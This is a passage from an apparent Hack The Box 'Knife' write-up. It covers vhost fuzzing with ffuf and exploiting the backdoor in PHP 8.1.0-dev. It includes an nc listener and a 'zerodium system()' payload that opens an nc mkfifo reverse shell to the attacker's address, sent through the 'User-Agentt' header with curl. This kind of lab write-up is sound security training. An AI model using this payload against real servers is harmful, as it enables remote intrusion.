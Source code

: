 ```
5815
```

Let's filter the vhosts with length `5815` then:

```sh
❯ ffuf -v -c -u "http://knife.htb/" -H "Host: FUZZ.knife.htb" -w "/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt" -mc "100-403,405-599" -fs "5815"
```

```
<SNIP>
```

Nothing!

#### Known vulnerabilities

We only have two pieces of information at this point: the server is Apache
version `2.4.41`, and the technology in use is PHP version `8.1.0-dev`.

If we search [ExploitDB](https://www.exploit-db.com/) for `Apache 2.4.41`, we
find nothing. However, if we enter `PHP 8.1.0-dev`, we find
[PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933).

## Foothold (RCE)

The vulnerability affecting PHP version `8.1.0-dev` is simply a backdoor
accessible through the `User-agentt` HTTP header.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

According to the Python PoC we found, the `User-Agentt` value I should send to
execute this command is:

```sh
zerodium system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 9001 >/tmp/f');
```

I'll save it as the `COMMAND` shell variable.

### Exploitation

Let's send a request with this header.

```sh
❯ curl -s -o "/dev/null" -H "User-Agentt: $COMMAND" "http://10.10.10.242/"
```
